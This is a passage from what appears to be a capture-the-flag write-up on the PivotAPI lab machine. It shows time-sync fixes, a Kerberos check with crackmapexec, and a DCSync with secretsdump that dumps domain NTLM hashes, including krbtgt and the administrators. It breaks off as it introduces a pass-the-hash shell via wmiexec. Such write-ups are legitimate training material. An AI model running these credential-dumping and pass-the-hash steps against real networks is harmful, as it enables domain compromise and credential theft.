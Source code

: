 -   Changing the time this way seemed to kill my VPN connection. I lost
    some frustrating time not realizing I wasn't connected any more. A
    quick reconnection after changing the time fixed that.
-   VirtualBox is constantly trying to sync it's guest VMs with the host
    time. I had to turn off the service on my host to get it to stop
    that. On my Ubuntu host, that was
    `sudo service virtualbox-guest-utils stop`.

Once I run that, it updates my clock:



    oxdf@parrot$ sudo ntpdate -u 10.10.10.240
     7 Nov 16:31:39 ntpdate[484337]: step time server 10.10.10.240 offset +557.901133 sec



Now I can `crackmapexec`:



    oxdf@parrot$ crackmapexec smb pivotapi.licordebellota.htb -k
    SMB         pivotapi.licordebellota.htb 445    PIVOTAPI         [*] Windows 10.0 Build 17763 x64 (name:PIVOTAPI) (domain:LicorDeBellota.htb) (signing:True) (SMBv1:False)
    SMB         pivotapi.licordebellota.htb 445    PIVOTAPI         [+] LicorDeBellota.htb\PIVOTAPI$ 



#### Hashes

With the time offset fixed, I can DC Sync:



    oxdf@parrot$ secretsdump.py LICORDEBELLOTA.HTB/pivotapi\$@pivotapi.licordebellota.htb -dc-ip 10.10.10.240 -no-pass -k                                                          
    Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

    [-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets                            
    Administrador:500:aad3b435b51404eeaad3b435b51404ee:efbb8ce4a3ea4cdd0377e13a6fe9e37e:::
    Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3fc8c66f79c15020a2c2c7f1cffd8049:::
    cybervaca:1000:aad3b435b51404eeaad3b435b51404ee:c33f387f6f7ab01aa1a8a29039d9feef:::
    LicorDeBellota.htb\3v4Si0N:1107:aad3b435b51404eeaad3b435b51404ee:bcc9e3e5704ae1c7a91cbef273ff23e5:::
    LicorDeBellota.htb\Kaorz:1109:aad3b435b51404eeaad3b435b51404ee:9c26ac73552428b4b624e7fbcc720b85:::
    LicorDeBellota.htb\jari:1116:aad3b435b51404eeaad3b435b51404ee:139fcd90ef171f43ef5b48025f773848:::
    LicorDeBellota.htb\superfume:1117:aad3b435b51404eeaad3b435b51404ee:cff95776a76ea23a8106d6653daa4cbc:::
    LicorDeBellota.htb\Dr.Zaiuss:1118:aad3b435b51404eeaad3b435b51404ee:cff95776a76ea23a8106d6653daa4cbc:::
    ...[snip]...



### Shell

Those hashes will work for a Pass-The-Hash to get a shell as any of the
accounts, like administrator or the other administrator, cybervaca.
Since cybervaca has the root flag, I'll get a shell as that user using
`wmiexec`:
